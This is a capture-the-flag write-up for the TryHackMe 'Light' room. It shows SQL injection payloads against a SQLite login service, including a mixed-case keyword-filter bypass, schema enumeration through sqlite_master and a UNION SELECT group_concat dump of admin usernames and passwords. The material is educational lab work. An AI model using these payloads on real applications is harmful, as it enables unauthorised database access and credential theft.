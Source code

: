 # Light

<br>

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838" width="200">
</p>

> *Welcome to the Light database application!*

<br>

## 🧠 Intro
Welcome to **Light**, a short and clever room focused on **SQL Injection (SQLi)** and database misconfigurations. SQLi happens when an application directly includes unsanitized user input in SQL queries — allowing attackers to manipulate the query logic and extract sensitive data from the backend.  


*Deploy the machine and let's light this one up.* 🔦

<br>

## 🎯 Task
To pwn this room, we need to:

- Find the **username** and **password** of the **admin** user.
- Capture the **flag**.

<br>

## 🔍 Recon
The room description hints at connecting to the machine via netcat on port `1337`.

```bash
nc MACHINE_IP 1337
```

![Light_1](src/Light_1.png)

We're greeted by a minimal login interface. We try logging in with:

> Username: `smokey`

The server responds with the corresponding password — but doesn’t actually log us in. Strange. Seems like we’re just querying the database and getting a response.

Time to test for SQL injection. 😈

<br>

## 🧪 Exploitation (SQLi)

We start simple with the classic:

```sql
' OR 1=1 --
```

But the server blocks us:

> *For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)*

Okay, so comments and certain keywords are filtered. Let’s try without the comment:

```sql
' OR 1=1
```

And now we get:

> *Error: unrecognized token: "''' LIMIT 30"*

Looks like an issue with unmatched quotes. So we try:

```sql
' OR '1=1
```

Success! We get a password as a response — even though it's useless:

> *tF8tj2o94WE4LKC*

This confirm that SQLi works. Now let’s go deeper. We need to find out what DBMS we're dealing with.

We suspect it's **SQLite** (given the name *Light*), so we try this payload:

```sql
' UNION SELECT sqlite_version() '
```

...but the server complains:

> *Ahh there is a word in there I don't like :(*  

Looks like keywords are filtered in uppercase. What if we capitalize?

```
' Union Select sqlite_version() '
```

Boom. This works — we get:

> *3.31.1*

So we’re dealing with SQLite 3. Nice.

Now, let’s enumerate the schema via the `sqlite_master` table:

```sql
' Union Select sql From sqlite_master '
```

![Light_2](src/Light_2.png)

Perfect. Now let’s extract the data.

To list usernames:

```sql
' Union Select group_concat(username) From admintable '
```

![Light_3](src/Light_3.png)

Then for passwords:

```sql
' Union Select group_concat(password) From admintable '
```

![Light_4](src/Light_4.png)

Mission complete!

<br>

## 🏁 Got the Flag
On the admintable table, we find the username, the password and the flag.

```
flag{go_get_it}
```

*Straight from the shadows into the light.* 💡

<br>

## 📝 Notes
This room shows how powerful SQL injection can be even in very restricted environments. Filter bypassing, capitalization tricks, and knowledge of DBMS behavior are all key tools when digging into databases.

<br>

## 🏠 Room Info
- 🧩 [TryHackMe - Light](https://tryhackme.com/room/lightroom)
- 🏷️ Difficulty: Easy
- 🧠 Focus: SQLi (SQL Injection)

